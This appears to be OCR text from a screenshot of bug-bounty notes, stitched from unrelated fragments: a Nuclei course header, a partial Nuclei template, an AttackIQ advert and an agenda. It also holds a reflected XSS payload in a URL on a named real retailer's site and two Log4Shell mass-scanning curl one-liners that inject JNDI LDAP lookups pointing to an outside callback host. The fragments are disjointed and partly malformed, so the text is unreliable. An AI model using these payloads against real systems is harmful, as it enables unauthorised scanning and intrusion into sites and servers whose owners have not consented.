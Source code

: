 







Nuclei Course : =100 Templates

Video Course 





https://www.woodlandworldwide.com/collections/search?channel=Web&clgId=10&sK=1"<Svg OnLoad==confirm,(1)<!--&pN=0



requests:
  - raw:
      - |
        POST / HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/x-www-form-urlencoded
        
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
        Upgrade-Insecure-Requests: 1






In the threat landscape, knowledge is your greatest weapon ⚔️ But all weapons need to be sharpened. Refine your #cybersecurity skills with AttackIQ Academy!

🧠 It’s practical
🤖 It’s open to anyone who’s ready to learn
💰 And best of all... it’s free!


Agenda:

New Vuln
Add test cases in 
Make different notion with 3 weeks vulns.







cat targets.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://log4j.requestcatcher.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://log4j.requestcatcher.com/a}";done   





cat target.txt | while read host do;do curl -sk --insecure --path-as-is '$host/?test=${jndi:ldap://log4j.requestcatcher.com/a}' -H 'X-Api-Version:${jndi:ldap://log4j.requestcatcher.com/a}' -H 'User-Agent:${jndi:ldap://log4j.requestcatcher.com/a}';done
